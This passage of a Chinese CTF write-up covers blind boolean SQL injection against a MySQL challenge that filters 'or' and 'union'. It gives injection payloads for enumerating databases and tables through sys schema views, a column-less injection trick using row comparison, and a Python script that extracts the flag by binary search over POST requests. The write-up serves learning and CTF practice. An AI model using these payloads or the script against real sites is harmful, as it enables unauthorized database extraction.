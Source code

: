    使用下面的脚本进行布尔型注入（与FinalSQL类似）。

   重点语句：

   - 爆破数据表：`"1^(ascii(substr(database(),%d,1))>%d)^1" % (i, tmp)`

   - 爆破表名：

     `"1^(ascii(substr((select(GROUP_CONCAT(TABLE_NAME))from(sys.x$schema_flattened_keys)where(TABLE_SCHEMA=database())),%d,1))>%d)^1" % (i, tmp)`

     > 注意：常用爆破表名的方法都是从information_schema.tables中获取，但由于本题过滤了or，因此该方法不行
     >
     > 其他获取表名的方法：
     >
     > - select group_concat(table_name) from **sys.x$schema_flattened_keys** where table_schema=database()
     > - select group_concat(table_name) from **sys.schema_table_statistics_with_buffer** where table_schema=database()

   - 爆破列名：没有办法获取列名--》**无列名注入**

     > **使用条件&方法**
     >
     > 无列名注入主要是适用于已经获取到数据表，但无法查询列的情况下，在大多数 CTF 题目中，information_schema 库被过滤，使用这种方法获取列名。
     >
     > 无列名注入的原理其实很简单，类似于将我们不知道的列名进行取别名操作，在取别名的同时进行数据查询，所以，如果我们查询的字段多于数据表中列的时候，就会出现报错。

     一般情况下的无列名查询可以参考[CTF|mysql之无列名注入](https://zhuanlan.zhihu.com/p/98206699)。常见的都会使用union select，但从前面我们已经可以得知，union被过滤掉，无法使用。

6. 参考其他wp，学到新方法。核心思路：`(select 1,"G")>(select * from f1ag_1s_h3r3_hhhhh)`

   脚本如下：

```python
url = 'http://1001b419-095b-467b-8a4e-63cd0c8440bd.node3.buuoj.cn/'
i = 0
flag = ''
while True:
    i += 1
    # 从可打印字符开始
    begin = 32
    end = 126
    tmp = (begin + end) // 2
    while begin < end:
        print(begin, tmp, end)
        time.sleep(0.1)
        # 爆数据库 give_grandpa_pa_pa_pa
        # payload = "1^(ascii(substr(database(),%d,1))>%d)^1" % (i, tmp)
        # 爆表 f1ag_1s_h3r3_hhhhh,users233333333333333
        # payload = "1^(ascii(substr((select(GROUP_CONCAT(TABLE_NAME))from(sys.x$schema_flattened_keys)where(TABLE_SCHEMA=database())),%d,1))>%d)^1" % (i, tmp)
        # 爆字段
        # payload = "1^(ascii(substr((select(GROUP_CONCAT(COLUMN_NAME))from(information_schema.COLUMNS)where(TABLE_NAME='F1naI1y')),%d,1))>%d)^1" % (i, tmp)
        
        payload = "1^((select * from f1ag_1s_h3r3_hhhhh)>(1,'%s'))^1" % (flag+chr(tmp))
        print(payload)
        data={"id":payload}
        r = requests.post(url,data=data)
        if 'Nu1L' in r.text:
            begin = tmp + 1
        else:
            end = tmp
        tmp = (begin + end) // 2

    flag += chr(tmp-1)
    #flag += chr(tmp)
```